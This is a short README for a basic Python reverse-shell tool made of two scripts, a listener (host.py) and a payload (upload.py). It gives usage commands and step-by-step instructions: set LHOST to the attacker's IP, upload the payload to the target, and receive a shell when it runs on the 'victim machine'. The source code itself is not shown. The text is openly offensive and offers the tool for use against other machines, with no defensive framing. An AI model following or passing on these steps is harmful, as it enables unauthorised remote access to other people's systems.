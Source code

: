 A basic python reverse shell using sockets.
******
Usage:

```
$ python3 host.py
```

```
$ python3 upload.py [HOST IP]
```

**********	
1.Change 'LHOST' in upload.py to your ip address or the ip of the server which you need to get the reverse a connection.
2.Then upload the upload.py to the target.
3.Run the host.py in your host machine.
4.When ever the upload.py is run in the victim machine then you get a reverse shell.

**********
